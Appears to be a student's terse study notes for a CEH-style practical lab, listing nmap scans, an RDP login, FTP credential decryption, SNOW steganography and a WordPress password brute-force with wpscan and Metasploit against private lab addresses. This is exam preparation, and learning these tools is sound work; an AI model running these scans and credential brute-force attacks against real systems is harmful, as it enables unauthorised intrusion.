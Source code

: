 - machine which is running RAT
  
* Practice

1. OS of the machine hosting db

nmap -sV 172.16.0.0/24
-> 3306 - IP MYSQL port open
nmap -O [IP]		-> O.S
OR
nmap -sA 172.16.0.0/24

2. Find suspicious account on the target machine [IP]

RDC [IP]
test
password

cmd>net user

3. RDP open on machine
  nmap -p 3389 [subnet]
  OR
  nmap -Pn -p -sV 3389 IP (need to scan for all ip's )

4. Retrieve file from FTP server by decrypting ftp server credentials encrypted with DES algo, User:hacker

5. Cryptool -> to get the credentials

ftp IP
username
pwd

get secret.txt

6. Concealed info in text file

SNOW
snow.exe -C -p "magic" hide.txt

7. Identify credentials of the user from wordpress site
  wpscan --url http://x.x.x.x:8080/CEH -u <user> -P ~/wordlists/password.txt

msfconsole

Bruteforce users/password using metasploit
msfconsole

use wordpress -> it will show all the modules of wordpress

use auxilliary/scanner/http/wordpress_login_enum
show options
set PASS_FILE /Desktop/password
set RHOST 10.10.1.10
set RPORT 8080
set TARGETURL http://http://10.10.1.10:8080/CEH
set USERNAME john
exploit
